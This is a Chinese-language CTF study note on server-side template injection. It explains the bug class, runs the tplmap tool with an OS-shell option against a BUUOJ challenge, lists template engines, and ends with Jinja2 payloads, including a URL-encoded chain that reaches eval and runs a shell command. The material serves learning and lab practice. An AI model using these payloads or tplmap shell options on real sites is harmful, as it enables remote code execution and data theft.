 # SSTI

**啥是SSTI**
SSTI （服务器端模板注入），指服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题.

**这种模板请不要认为只存在于 Python 中，请记住，凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是**


[文章思路来自大佬文章谢谢大佬](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)

### 使用工具测试注入

[SSTI检测工具](https://github.com/epinna/tplmap)

工具是python2的 (安装的时候可没把我坑惨，好几个教学都说是py3，老复制粘贴了。)

[简单案例](https://www.cnblogs.com/LEOGG321/p/13441283.html)

语句：
```bash
pip install --upgrade pip # 先更新一下pip 如果是最新的就跳过
pip install -r requirements.txt # 安装依赖
python ./tplmap.py -u 'http://4ed902ae-b677-45c3-a0c1-4c8a88af7f07.node3.buuoj.cn/qaq?name=1*' # 在存在注入或者想要测试的地方加* 和sqlmap很像。

```

可以输入的指令
```
[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

实例:
```bash
python ./tplmap.py -u 'http://4ed902ae-b677-45c3-a0c1-4c8a88af7f07.node3.buuoj.cn/qaq?name=1*' --engine=Jinja2 --os-shell # 指定目标引擎
```
![](img/1.png)

`ls ../`
发现flag
`cat /flag`
找到文件

![](img/2.png)

### 手工注入

**常见的模板引擎**

- php常用
  - Smarty
    Smarty算是一种很老的PHP模板引擎了，非常的经典，使用的比较广泛

  - Twig
    Twig是来自于Symfony的模板引擎，它非常易于安装和使用。它的操作有点像Mustache和liquid。

  - Blade
    Blade 是 Laravel 提供的一个既简单又强大的模板引擎。

- Java常用
  - JSP
    这个引擎我想应该没人不知道吧，非常的经典

  - FreeMarker
    FreeMarker是一款模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本（HTML网页、电子邮件、配置文件、源代码等）的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。
  - Velocity

- python 常用
  - Jinja2
    flask jinja2 一直是一起说的，使用非常的广泛
    https://buuoj.cn/challenges
    的 `[BJDCTF 2nd]fake google` 这一关

  - django
    django 应该使用的是专属于自己的一个模板引擎，我这里姑且就叫他 django，我们都知道 django 以快速开发著称，有自己好用的ORM，他的很多东西都是耦合性非常高的，你使用别的就不能发挥出 django 的特性了
  - tornado
    tornado 也有属于自己的一套模板引擎，tornado 强调的是异步非阻塞高并发

### SSTI的危害和利用

> 单纯的字符串拼接并不能带来注入问题，关键要看你拼接的是什么，如果是控制语句，就会造成数据域与代码域的混淆，这样就会出洞.

[CTF SSTI(服务器模板注入)](https://www.cnblogs.com/20175211lyz/p/11425368.html)

当然，这种情况一般不属于模板引擎的问题，大多数原因都是开发者并没有很好的处理
可以参考：
[SSTI 怎么产生的](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)
对三种语言进行代码上的解析。

区分代码

![](img/3.png)

- jinja2:`尝试{{7*'7'}}回显 7777777`



使用 jinja2举例

模板
```
{{ ... }}：装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。
{% ... %}：装载一个控制语句。
{# ... #}：装载一个注释，模板渲染的时候会忽视这中间的值
```

一些简单注入
```
{{config}}可以获取当前设置
{{self}}
{{self.__dict__._TemplateReference__context.config}} 同样可以看到config
```


变量

在模板中添加变量，可以使用（set）语句。

```
{% set name='xx' %}
```



```url
{%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22id%22).read()%27)%20}}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```























